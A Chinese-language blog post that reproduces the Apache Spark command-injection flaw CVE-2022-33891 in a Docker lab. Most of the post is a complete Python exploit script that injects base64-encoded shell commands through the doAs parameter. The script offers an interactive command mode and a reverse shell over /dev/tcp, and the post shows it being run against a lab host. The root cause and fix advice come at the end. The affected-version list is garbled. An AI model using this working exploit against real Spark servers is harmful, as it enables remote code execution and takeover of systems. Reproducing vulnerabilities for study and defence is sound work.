




# CVE-2022-33891 Apache spark shell 命令注入漏洞复现 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/16518238.html`](https://www.cnblogs.com/hetianlab/p/16518238.html)

# 简介

Spark 是用于大规模数据处理的统一分析引擎。它提供了 Scala、Java、Python 和 R 中的高级 API，以及支持用于数据分析的通用计算图的优化引擎。它还支持一组丰富的高级工具，包括用于 SQL 和 DataFrames 的 Spark SQL、用于 Pandas 工作负载的 Spark 上的 Pandas API、用于机器学习的 MLlib、用于图形处理的 GraphX 和用于流处理的结构化流。

# 影响版本

Apache spark version<3.0.3

3.1.1<Apache spark version<3.1.2

Apache Spark version>= 3.3.0

# 环境搭建

目前官网上已经找不到老版本的 docker 镜像了



搜索老版本的也是为空

这里环境搭建的时使用的是 github 上私人仓库的镜像，下载地址

> [`github.com/big-data-europe/docker-spark`](https://github.com/big-data-europe/docker-spark)

需要修改配置文件，下载存在漏洞的版本，修改 dockerfile,V3.1.1



修改版本

> docker-compose up -d


访问

> http:10.10.10.32:8080



【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

这里测试是不存在漏洞的，需要修改配置文件

> echo "spark.acls.enable true" >> conf/spark-defaults.conf

POC 如下：

```
#!/usr/bin/env python3
import requests
import argparse
import base64
import datetime
​
​
parser = argparse.ArgumentParser(description='CVE-2022-33891 Python POC Exploit Script')
parser.add_argument('-u', '--url', help='URL to exploit.', required=True)
parser.add_argument('-p', '--port', help='Exploit target\'s port.', required=True)
parser.add_argument('--revshell', default=False, action="store_true", help="Reverse Shell option.")
parser.add_argument('-lh', '--listeninghost', help='Your listening host IP address.')
parser.add_argument('-lp', '--listeningport', help='Your listening host port.')
parser.add_argument('--check', default=False, action="store_true", help="Checks if the target is exploitable with a sleep test")
​
args = parser.parse_args()
​
full_url = f"{args.url}:{args.port}" ​
​
def check_for_vuln(url):
    print("[*] Attempting to connect to site...")
    r = requests.get(f"{full_url}/?doAs='testing'", allow_redirects=False) if r.status_code != 403:
        print("[-] Does not look like an Apache Spark server.")
        quit(1)
    elif "org.apache.spark.ui" not in r.content.decode("utf-8"):
        print("[-] Does not look like an Apache Spark server.")
        quit(1) else:
        print("[*] Performing sleep test of 10 seconds...")
        t1 = datetime.datetime.now()
        run_cmd("sleep 10")
        t2 = datetime.datetime.now()
        delta = t2-t1 if delta.seconds < 10:
            print("[-] Sleep was less than 10\. This target is probably not vulnerable") else:
            print("[+] Sleep was 10 seconds! This target is probably vulnerable!")
        exit(0)
​
​
def cmd_prompt():
    # Provide user with cmd prompt on loop to run commands
    cmd = input("> ") return cmd
​
​
def base64_encode(cmd):
    message_bytes = cmd.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_cmd = base64_bytes.decode('ascii') return base64_cmd
​
​
def run_cmd(cmd): try:
        # Execute given command from cmd prompt
        #print("[*] Command is: " + cmd)
        base64_cmd = base64_encode(cmd)
        #print("[*] Base64 command is: " + base64_cmd)
        exploit = f"/?doAs=`echo {base64_cmd} | base64 -d | bash`" exploit_req = f"{full_url}{exploit}" print("[*] Full exploit request is: " + exploit_req)
        requests.get(exploit_req, allow_redirects=False)
    except Exception as e:
        print(str(e))
​
​
def revshell(lhost, lport):
    print(f"[*] Reverse shell mode.\n[*] Set up your listener by entering the following:\n nc -nvlp {lport}")
    input("[!] When your listener is set up, press enter!")
    rev_shell_cmd = f"sh -i >& /dev/tcp/{lhost}/{lport} 0>&1" run_cmd(rev_shell_cmd)
​
def main():
​ if args.check and args.revshell:
        print("[!] Please choose either revshell or check!")
        exit(1)
​
    elif args.check:
        check_for_vuln(full_url)
​
    # Revshell
    elif args.revshell: if not (args.listeninghost and args.listeningport):
            print("[x] You need a listeninghost and listening port!")
            exit(1) else:
            lhost = args.listeninghost
            lport = args.listeningport
            revshell(lhost, lport) else:
        # "Interactive" mode
        print("[*] \"Interactive\" mode!\n[!] Note: you will not receive any output from these commands. Try using something like ping or sleep to test for execution.") while True:
            command_to_run = cmd_prompt()
            run_cmd(command_to_run)
​
​ if __name__ == "__main__":
    main()
```

如果失败的话重建项目，使用下面这个文件起 docker 可能是镜像的问题，不同的仓库内的 Apache spark 配置不同，这个版本是 V3.0.0 的

```
version: '2' ​
services:
​
  spark:
    image: docker.io/bitnami/spark:3.0.0 environment: - SPARK_MODE=master - SPARK_RPC_AUTHENTICATION_ENABLED=no - SPARK_RPC_ENCRYPTION_ENABLED=no - SPARK_LOCAL_STORAGE_ENCRYPTION_ENABLED=no - SPARK_SSL_ENABLED=no
    ports: - '8080:8080'
```


访问

> [`192.168.0.112:8080/`](http://192.168.0.112:8080/)



修改配置文件

> docker exec -it 8a /bin/bash

> I have no name!@8a7873e77c46:/opt/bitnami/spark$ echo "spark.acls.enable true" >> conf/spark-defaults.conf
> 
> I have no name!@8a7873e77c46:/opt/bitnami/spark$ cat conf/spark-defaults.conf


已追加配置,重启 docker

> root@ubuntu:/home/ubuntu/Desktop/spark# docker-compose up -d


使用 poc 去生成 payload，或者手动也可，但是执行的命令要使用 echo 写入执行且做 base64 编码后解码生效。


但是看不到回显，直接反弹 shell

```
python 2.py -u http://192.168.0.112 -p 8080 --revshell -lh 192.168.0.121 -lp 4444
```


查看连接状态


# 漏洞成因

漏洞成因是由于 Apache Spark UI 提供了通过配置选项 spark.acls.enable 启用 ACL 的可能性。使用身份验证过滤器，这将检查用户是否具有查看或修改应用程序的访问权限。如果启用了 ACL，则 HttpSecurityFilter 中的代码路径可以允许某人通过提供任意用户名来执行模拟。然后，恶意用户可能能够访问权限检查功能，该功能最终将根据他们的输入构建一个 Unix shell 命令并执行，导致任意 shell 命令执行。

参考：[`spark.apache.org/security.html`](https://spark.apache.org/security.html)

# 修复建议

1.建议升级到安全版本，参考官网链接：

[`spark.apache.org/downloads.html`](https://spark.apache.org/downloads.html)

2.安全设备路径添加黑名单或者增加 WAF 规则(临时方案)。

******更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)******

搜索

复制